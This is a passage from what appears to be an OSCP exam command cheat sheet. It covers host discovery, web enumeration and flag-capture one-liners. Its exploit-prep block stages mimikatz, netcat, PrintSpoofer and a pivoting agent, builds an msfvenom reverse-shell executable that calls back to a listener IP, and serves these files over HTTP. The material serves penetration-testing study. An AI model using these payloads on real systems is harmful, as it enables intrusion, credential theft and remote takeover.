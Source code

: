 # OSCP Command Cheat Sheet

Curated from the OSCP Assessment Template with added quick wins for both Linux and Windows targets.

## One Liner for flag
```bash
whoami; hostname; type local.txt;
whoami; hostname; type proof.txt;
whoami; hostname; cat local.txt;
whoami; hostname; cat proof.txt;
```
## One Liner for exploit prep

```bash
cp $(locate agent.exe); cp $(locate pspy64) .; cp $(locate PowerUp.ps1) .;
cp $(locate mimikatz.exe) . ; cp $(locate nc.exe) . ;
cp $(locate linpeas.sh) . ; cp $(locate winPEASx64.exe) . ;
wget https://github.com/dievus/printspoofer/raw/refs/heads/master/PrintSpoofer.exe ;
wget https://github.com/nicocha30/ligolo-ng/releases/download/v0.8.2/ligolo-ng_agent_0.8.2_windows_amd64.zip ;
unzip ligolo-ng_agent_0.8.2_windows_amd64.zip ;
msfvenom -p windows/x64/shell_reverse_tcp -f exe LHOST=192.168.45.211 LPORT=4444 > rv.exe;
ls;
python3 -m http.server 80
```





## One liner for directory
```bash
mkdir AD ; mkdir Box; mkdir -p screen/Box; mkdir -p screen/AD;
```

## Network & Discovery
- `sudo nmap -sn <cidr>` – Fast discovery of live hosts via ICMP/ARP.
- `arp-scan <cidr>` – Layer 2 discovery for hosts that ignore ICMP.
- `nmap -sC -sV -p- <target>` – Full TCP enumeration with scripts and version detection.
- `nmap -sU --top-ports 100 <target>` – Lightweight UDP scan of common services.
- `whatweb <url>` – Fingerprint web technologies.
- `ffuf -u http://<host>/FUZZ -w /path/to/wordlist.txt -ic` – OWASP-style quick fuzz of directories/files.
- `gobuster dir -u http://<host> -w /path/to/wordlist.txt -x php,txt,bak` – Directory brute-force for low-effort web wins.
- `nikto -h http://<host>` – Catch obvious web misconfigurations.
- `zap-baseline.py -t http://<host>` – Rapid OWASP ZAP passive scan for easy findings.

## Web Application Testing
### Web Enumeration Examples
- `sudo nmap -p80  -sV 192.168.50.20` – Identify web server version.
- `gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5` – Discover hidden directories.
- `gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words.txt -x php,txt,html -t 10` – Deeper directory enumeration.
-  Debug Page Content: Look for comments, hidden fields, or debug info in HTML source.
-  Enumerate API:
   * patterns
    ```bash
    {GOBUSTER}/v1
    {GOBUSTER}/v2